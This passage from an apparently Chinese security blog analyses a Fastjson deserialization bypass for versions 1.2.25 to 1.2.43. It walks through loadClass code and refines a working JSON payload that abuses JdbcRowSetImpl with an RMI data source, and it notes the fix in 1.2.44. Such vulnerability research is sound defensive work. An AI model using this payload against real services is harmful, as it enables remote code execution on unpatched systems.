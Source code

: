 但是注意到原loadClass中不仅对L和;做了处理，对[也做了处理

```java
if (className.charAt(0) == '[') {
  Class<?> componentType = loadClass(className.substring(1), classLoader);
  return Array.newInstance(componentType, 0).getClass();
}

if (className.startsWith("L") && className.endsWith(";")) {
  String newClassName = className.substring(1, className.length() - 1);
  return loadClass(newClassName, classLoader);
}
```

因此构造出如下POC:

```java
{"@type":"[com.sun.rowset.JdbcRowSetImpl","DataSourceName":"rmi://localhost:1099/testobj","AutoCommit":0}
```

但是会抛出异常说：

```java
Exception in thread "main" com.alibaba.fastjson.JSONException: exepct '[', but ,, pos 42, json : {"@type":"[com.sun.rowset.JdbcRowSetImpl","DataSourceName":"rmi://localhost:1099/testobj","AutoCommit":0}
```

就是说希望在第42个位置接收到一个`[`，但是实际上收到的是一个`,`，这里实际上是`com.sun.rowset.JdbcRowSetImpl",`中的这个`,`

这里就不去探讨背后的原因了，听他的改成`[`先，但是又报错了：

```java
Exception in thread "main" com.alibaba.fastjson.JSONException: syntax error, expect {, actual string, pos 43, fastjson-version 1.2.43
```

就说希望在43这个位置收到一个`{`但是实际上是`,`

这里继续听他的，改为：

```java
{"@type":"[com.sun.rowset.JdbcRowSetImpl"[{,"DataSourceName":"rmi://localhost:1099/testobj","AutoCommit":0}
```

成功执行。这个Payload很显然对于1.2.25-1.2.43都是适用的

1.2.44中对此漏洞进行了修复，当类名以[开头时直接抛出异常

![img](/blog_img/1616475393707.png)
